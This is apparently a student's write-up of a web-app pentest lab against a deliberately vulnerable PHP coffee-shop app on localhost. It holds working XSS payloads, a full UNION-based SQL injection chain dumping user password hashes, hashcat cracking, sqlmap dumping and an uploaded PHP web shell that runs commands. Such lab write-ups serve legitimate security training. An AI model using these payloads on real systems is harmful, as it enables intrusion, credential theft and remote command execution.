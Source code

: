 # Web App - Capstone Practical Lab

Analyze and pentest the web application by finding all the impactful issues.

- Run BurpSuite to capture all the traffic and browse to `http://localhost/capstone/`

```bash
ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php -recursion

ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php -recursion -fs 274
```

```bash
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost/capstone/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 274
________________________________________________

admin                   [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 1ms]
[INFO] Adding a new job to the queue: http://localhost/capstone/admin/FUZZ

assets                  [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 2ms]
[INFO] Adding a new job to the queue: http://localhost/capstone/assets/FUZZ

auth.php                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 7ms]
                        [Status: 200, Size: 14261, Words: 2458, Lines: 109, Duration: 116ms]
coffee.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 18ms]
db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 21ms]
index.php               [Status: 200, Size: 14261, Words: 2458, Lines: 109, Duration: 69ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 12ms]
index.php               [Status: 200, Size: 14261, Words: 2458, Lines: 109, Duration: 75ms]
init.php                [Status: 200, Size: 238, Words: 22, Lines: 8, Duration: 155ms]
[INFO] Starting queued job on target: http://localhost/capstone/admin/FUZZ

admin.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 28ms]
admin.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 32ms]
[INFO] Starting queued job on target: http://localhost/capstone/assets/FUZZ

:: Progress: [9228/9228] :: Job [3/3] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

- Sign up with a weak password and login
- The message is reflected on the URL

```bash
http://localhost/capstone/index.php?message=You%20successfully%20logged%20in!
```

Try some HTML injection and XSS

- 📌 **Reflected XSS** is present

```bash
http://localhost/capstone/index.php?message=<script>prompt(1)</script>
```

Go to `http://localhost/capstone/coffee.php?coffee=1`

- Try XSS it in the **Add rating** comment - `<script>prompt(1)</script>`
- Refresh the page to test the stored XSS
- 📌 **Stored XSS** is present

Try SQL injection in the `http://localhost/capstone/coffee.php?coffee=1` URL

```bash
http://localhost/capstone/coffee.php?coffee=1%27%20or%201=1# 
# informational issue

http://localhost/capstone/coffee.php?coffee=1%27%20or%201=1--%20-
# Success - Returns all coffees

http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,null,null,null,null,null,null--%20-
# Success - UNION select

http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,TABLE_NAME,%27string%27,null,null,null,null%20FROM%20INFORMATION_SCHEMA.TABLES--%20-
# Success - tables

http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,COLUMN_NAME,%27string%27,null,null,null,null%20FROM%20INFORMATION_SCHEMA.COLUMNS--%20-
# Success - columns: user_id, username, password, etc

http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,username,password,null,null,null,null%20FROM%20users--%20-
# Success - got users with passwords hash
```

- 📌 SQLi
  - `=1' or 1=1-- -`
  - `=1' union select null,null,null,null,null,null,null-- -`
  - `=1' union select null,TABLE_NAME,'string',null,null,null,null FROM INFORMATION_SCHEMA.TABLES-- -`
  - `=1' union select null,COLUMN_NAME,'string',null,null,null,null FROM INFORMATION_SCHEMA.COLUMNS-- -`
  - `=1' union select null,username,password,null,null,null,null FROM users-- -`

```bash
# Users hashes
jeremy:
$2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy
jessamy:
$2y$10$meh2WXtPZgzZPZrjAmHi2ObKk6uXd2yZio7EB8t.MVuV1KwhWv6yS
ray:
$2y$10$cCXaMFLC.ymTSqu1whYWbuU38RBN900NutjYBvCClqh.UHHg/XfFy
bob:
$2y$10$ojC8YCMKX2r/Suqco/h.TOFTIaw5k3Io5FVSCeWjCCqL8GWwmAczC
maria:
$2y$10$EPM4Unjn4wnn4SjoEPJu7em6OLISImA50QS3T1jCLyh48d7Pv6KBi
amir:
$2y$10$qAXjb233b7CMHc69CU.8ueluFWZDt9f08.XYJjsJ.EfC/O5JGSOqW
xinyi:
$2y$10$37gojoTFmj86E6NbENGg9e2Xu2z6OKKSgnjYxDkXJn/8dvSk2tKfG
kofi:
$2y$10$5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3.
```

- Try to crack some of the hashes with mode `bcrypt $2*$, Blowfish (Unix)`

```bash
nano hash.txt

$2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy
$2y$10$meh2WXtPZgzZPZrjAmHi2ObKk6uXd2yZio7EB8t.MVuV1KwhWv6yS
```

```bash
hashcat -m 3200 hash.txt /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt

hashcat -m 3200 hash.txt /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt --show

	$2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy:captain1
```

- Run `sqlmap` on the `http://localhost/capstone/coffee.php?coffee=1` request
  - Get it from BurpSuite

```bash
nano coffee.txt

GET /capstone/coffee.php?coffee=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=6f9efce7c39046143f27daa3f9d80638
Connection: keep-alive
```

```bash
sqlmap -r coffee.txt -T users --dump
```

```bash
# sqlmap result
Database: peh-capstone-labs
Table: users
[9 entries]
+---------+--------+--------------------------------------------------------------+----------+
| user_id | type   | password                                                     | username |
+---------+--------+--------------------------------------------------------------+----------+
| 1       | admin  | $2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy | jeremy   |
| 2       | admin  | $2y$10$meh2WXtPZgzZPZrjAmHi2ObKk6uXd2yZio7EB8t.MVuV1KwhWv6yS | jessamy  |
| 3       | admin  | $2y$10$cCXaMFLC.ymTSqu1whYWbuU38RBN900NutjYBvCClqh.UHHg/XfFy | raj      |
| 4       | user   | $2y$10$ojC8YCMKX2r/Suqco/h.TOFTIaw5k3Io5FVSCeWjCCqL8GWwmAczC | bob      |
| 5       | user   | $2y$10$EPM4Unjn4wnn4SjoEPJu7em6OLISImA50QS3T1jCLyh48d7Pv6KBi | maria    |
| 6       | user   | $2y$10$qAXjb233b7CMHc69CU.8ueluFWZDt9f08.XYJjsJ.EfC/O5JGSOqW | amir     |
| 7       | user   | $2y$10$37gojoTFmj86E6NbENGg9e2Xu2z6OKKSgnjYxDkXJn/8dvSk2tKfG | xinyi    |
| 8       | user   | $2y$10$5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3. | kofi     |
| 9       | user   | $2y$10$C2L29W3hbwvK..KvPltBmO5aL8CD74yByBzat6GEMmJA2ah15JvtS | sys      |
+---------+--------+--------------------------------------------------------------+----------+
```

📌 Creds - `jeremy`:`captain1`

- Login as `jeremy`
- Browse to `http://localhost/capstone/admin/admin.php`

Try to add a new coffee and upload a file.

- Find the `POST` request, send to Repeater and try to upload a shell

```bash
Content-Disposition: form-data; name="image"; filename="logo.php"
Content-Type: image/png

PNG
... <?php system($_GET['cmd']); ?>
```

- The file has been uploaded successfully
- Open `http://localhost/capstone/assets/12.php`
  - `http://localhost/capstone/assets/12.php?cmd=whoami`
  - 📌 Insecure file upload successful

![](.gitbook/assets/2025-02-28_19-27-14_931.png)

---

